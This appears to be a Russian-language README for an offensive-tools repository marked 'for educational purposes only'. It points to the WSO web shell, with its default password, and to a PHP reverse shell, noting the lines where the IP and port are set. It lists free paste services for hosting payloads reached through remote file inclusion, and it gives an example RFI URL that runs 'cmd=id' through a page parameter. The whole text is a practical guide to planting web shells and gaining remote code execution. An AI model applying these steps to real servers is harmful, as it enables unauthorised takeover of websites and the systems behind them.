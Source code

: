# For educational purposes only!

## wso shell 
original repo - https://github.com/mIcHyAmRaNe/wso-webshell

Пароль по умолчанию - ghost287 (поменять пароль можно в строке 7 указав md5 хеш нового пароля)

## rev-shell 
original repo - https://github.com/pentestmonkey/php-reverse-shell/tree/master

Не забудьте указать новый IP и PORT на строке 49 и 50

## pastebin like services
Список сервисов для публикации кода https://github.com/lorien/awesome-pastebins
Проверенные бесплатные сервисы:
- http://vpaste.net/
- https://bpa.st/
- https://pastebin.mozilla.org/
- https://paste.debian.net/
- https://pastebin.fi/

После размещения ищем кнопку RAW и получаем ссылку на текст файла, который уже можно использовать для RFI\RCE

P.S. При работе с RFI не забывайте, что вы передаёте ссылку как параметр, и если внутри вашего кода тоже есть обработчик параметра, то его нужно передавать не через символ `?`, а через символ`&`

🚫 BAD - http://127.0.0.1/test.php?page=https://example.com/r/lolkek?cmd=id 

🆗 GOOD - http://127.0.0.1/test.php?page=https://example.com/r/lolkek&cmd=id 

